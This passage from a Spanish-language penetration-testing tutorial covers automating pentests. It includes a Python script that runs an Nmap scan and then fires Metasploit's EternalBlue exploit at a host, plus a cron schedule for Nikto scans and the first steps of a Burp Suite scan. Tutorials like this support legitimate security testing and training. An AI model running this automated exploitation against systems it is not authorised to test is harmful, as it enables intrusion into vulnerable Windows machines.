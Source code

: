 ```python
import subprocess

# Función para escanear puertos con Nmap
def escanear_puertos(host):
    print(f"Escaneando puertos abiertos en {host}...")
    resultado = subprocess.run(['nmap', '-sS', '-p-', host], capture_output=True, text=True)
    print(resultado.stdout)

# Función para ejecutar un exploit con Metasploit
def ejecutar_exploit(host):
    print(f"Ejecutando exploit en {host}...")
    msfscript = '''
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOST {}
    exploit
    '''.format(host)
    resultado = subprocess.run(['msfconsole', '-q', '-x', msfscript], capture_output=True, text=True)
    print(resultado.stdout)

# Ejemplo de uso
escanear_puertos('192.168.1.5')
ejecutar_exploit('192.168.1.5')
```

### 9.3.2. Programación de Pentests con Cron

Al igual que con las auditorías de seguridad, podemos automatizar pruebas de penetración periódicas utilizando **Cron** en Linux. Aquí te mostramos cómo programar un escaneo semanal de vulnerabilidades con **Nikto**.

```bash
# Abrir el archivo crontab
crontab -e

# Agregar la tarea programada (escaneo todos los lunes a las 2:00 AM)
0 2 * * 1 nikto -h http://example.com -output /var/log/nikto_reporte.txt
```

---

## 9.4. Pentesting Web Automatizado con Burp Suite

Burp Suite puede automatizar pruebas de aplicaciones web a través de su herramienta **Burp Scanner**. A continuación se muestra cómo realizar un escaneo automatizado utilizando Burp Suite.

### 9.4.1. Configuración del Escaneo Automático

1. **Configurar el Proxy**: Configura el navegador para que todo el tráfico pase a través de Burp Suite, interceptando y analizando todas las solicitudes y respuestas HTTP.
   
2. **Iniciar un Escaneo Automático**: Burp Scanner analiza las páginas web y busca vulnerabilidades comunes, como inyecciones SQL, XSS y CSRF.
